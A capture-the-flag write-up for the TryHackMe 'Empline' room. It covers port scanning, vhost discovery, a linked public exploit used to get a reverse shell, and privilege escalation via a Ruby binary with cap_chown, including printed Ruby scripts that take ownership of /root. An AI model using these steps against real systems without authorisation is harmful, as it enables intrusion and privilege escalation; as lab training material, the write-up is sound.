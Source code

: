 # Empline TryHackMe Room Write-Up

## Task 1: Host enumeration

Added the IP to /etc/hosts and conducted an initial port scan:

1.1 Looking for open ports `nmap -sC -sV empline.thm`. Discovered 3 open ports:

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/fd6d70f8-5877-4729-9c0c-f82ca5a3fa7f)

1.2 Looking for pages using dirb `dirb http://empline.thm`. No interesting pages found.

1.3 Navigated to the web application, located the Vhost link associated with the job portal (job.empline.thm), and added it to /etc/hosts.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/b3bbf9b0-a372-454e-b81f-e56552a43778)

1.4 Found the system version on the portal and identified an exploit for privilege escalation.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/21152b63-0d71-4125-800e-c715e1edad38)

After searching a bit we can found exploit. I used this [one](https://github.com/Nickguitar/RevCAT) to get in to the system.

## Task 2: Find the flags

My way to find the flags might be a bit cheety :)

2.1 Utilized the discovered exploit to gain a reverse shell.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/fb820f16-a5ea-4fb8-8aed-6528449bc181)
Spen some time to look around the system and find the way to escalate priveleges.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/3121477d-a2f2-439e-9396-6227a79ffee3)

2.2 I found interesting capability using this command `getcap -r / 2>/dev/null`. 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/98d40a6c-10d2-4ace-a68e-47b39445366e)

2.3 Identified the potential to change ownership using Ruby due to the cap_chown capability.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/6f431215-fab5-4e83-887b-d3318361338c)

I'm not good at upgrading reverse shells to stabilized ones, so without some essential capabilities like cd, nano, etc. it was a little bit painfull to create ruby script :)
After some research my first version of script
```
# Specify the file path
file_path = '/root'

# Specify the new owner and group
new_owner = 'www-data'
new_group = 'www-data'

# Use the File class to change ownership
begin
  File.chown(new_owner, new_group, file_path)
  puts 'Ownership changed successfully.'
rescue => e
  puts 'Error: #{e.message}'
end
```

To create the file script.rb I used this echo command:

```
echo  "# Specify the file path\\nfile_path = '/root'\\n\\n# Specify the new owner and group\\nnew_owner = 'www-data'\\nnew_group = 'www-data'\\n\\n# Use the File class to change ownership\\nbegin\\n  File.chown(new_owner, new_group, file_path)\\n  puts 'Ownership changed successfully.'\\nrescue => e\\n  puts 'Error: \#{e.message}'\\n  puts e.inspect\\nend" > script.rb

```
And got an error

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/9a3bdbef-8411-484f-91c8-64b16220f16f)

The next step was to search how to remove this error. I spent some time and here is my next version of script:
```
# Specify the directory path
directory_path = '/root'

# Specify the new owner and group
new_owner_username = 'www-data'
new_group_name = 'www-data'

# Convert username and group name to numeric IDs
new_owner = Etc.getpwnam(new_owner_username).uid
new_group = Etc.getgrnam(new_group_name).gid

# Use FileUtils to change ownership of the directory
begin
  FileUtils.chown_R(new_owner, new_group, directory_path)
  puts "Ownership of the directory changed successfully."
rescue => e
  puts "Error: #{e.message}"
  puts e.inspect
end
```
Corresponding echo command
```
echo "require 'fileutils'\\nrequire 'etc'\\n\\n# Specify the directory path\\ndirectory_path = '/root'\\n\\n# Specify the new owner and group\\nnew_owner_username = 'www-data'\\nnew_group_name = 'www-data'\\n\\n# Convert username and group name to numeric IDs\\nnew_owner = Etc.getpwnam(new_owner_username).uid\\nnew_group = Etc.getgrnam(new_group_name).gid\\n\\n# Use FileUtils to change ownership of the directory\\nbegin\\n  FileUtils.chown_R(new_owner, new_group, directory_path)\\n  puts 'Ownership of the directory changed successfully.'\\nrescue => e\\n  puts 'Error: #{e.message}'\\n  puts e.inspect\\nend" > script.rb
```
And here we are. Repeated the process for the /home directory.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/37f50fe6-0c66-4def-9b7b-49739027eb57)

2.4 The flags

User.txt and Root.txt flags

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/6ef439b1-338c-47ee-af0b-f11319e9b6bc)

This room provided valuable insights into system capabilities :)

*Note: This write-up is intended for educational purposes and highlights the steps taken during the Empline [TryHackMe](https://tryhackme.com/room/empline) room.*








